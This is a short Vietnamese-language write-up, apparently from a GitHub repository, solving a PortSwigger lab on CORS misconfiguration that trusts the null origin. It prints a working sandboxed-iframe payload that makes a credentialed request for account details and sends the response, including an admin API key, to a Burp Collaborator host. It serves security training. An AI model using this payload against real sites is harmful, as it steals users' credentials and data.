 # CORS vulnerability with trusted null origin



Header Origin của challenge này: 

+ Không cho phép các domain nào ngoài domain của trang web challenge
+ cho phép dùng `null`

>  `Origin:null` thường được sử dụng trong môi trường phát triển, để trang web có thể truy cập cấu  trúc thư mục nội bộ 

Chúng ta sẽ lạm dụng null origin sử dụng thẻ iframe và gửi yêu cầu bên trong thẻ iframe và gửi sandbox iframe đến trang web đích ở định dạng sau

*Null origin exploit* 

```apl
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a2900690498e416c0521e62003e00fe.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://bp4ha2l9z0687iwi89m9o6ci99fz3o.burpcollaborator.net/?key='+this.responseText;
};
</script>"></iframe>
```

Sau khi store script bên máy chủ exploit chúng ta nhận được requests đến burp collab

![image](https://user-images.githubusercontent.com/68894302/174557416-9d1c0a66-8019-4f1c-9890-6587f4fd95e6.png)

API key của admin chính là khóa để giải quyết challenge

![image](https://user-images.githubusercontent.com/68894302/174557758-f56f8c31-9959-4b5a-8e46-927d2fd7cd2a.png)